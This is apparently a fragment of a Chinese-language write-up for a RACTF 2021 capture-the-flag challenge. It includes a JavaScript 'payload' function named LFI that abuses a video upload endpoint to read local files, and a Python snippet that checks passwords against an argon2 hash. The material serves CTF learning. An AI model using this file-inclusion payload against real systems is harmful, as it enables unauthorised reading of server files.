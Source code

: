 再去根目录下，即可得到`flag`

![ractf202119](img/ractf2021/ractf202119.png)

### payload

```js
async function LFI(inp){
    let fd = new FormData();
    fd.append("file", inp);
    fd.append("source", "internal");
    const ctrl = new AbortController()

    try {
      displayMDCSnackbar("Uploading Video, please wait", 10000)
       let req = await fetch('/upload/content',
        {method: "POST", body: fd, signal: ctrl.signal}).then(resp => resp.json()).then(data => displayMDCSnackbar(data.message, 4000));
       setTimeout(function(){location = ''}, 4000);
    } catch(e) {
      setTimeout(function(){location = ''}, 4000);
      displayMDCSnackbar("Upload Failed: " + e, 4000)
    }
}
```

```python
import os
import io
from argon2 import PasswordHasher

ph = PasswordHasher()
#hash = ph.hash("s3kr3tp4ssw0rd")
hash = '$argon2id$v=19$m=102400,t=2,p=8$WmI1xK/4Z1fiLj20O2fDpA$7Oy7WAp9gERzT/T5RlDXCw'
print(ph.verify(hash, "password"))
```

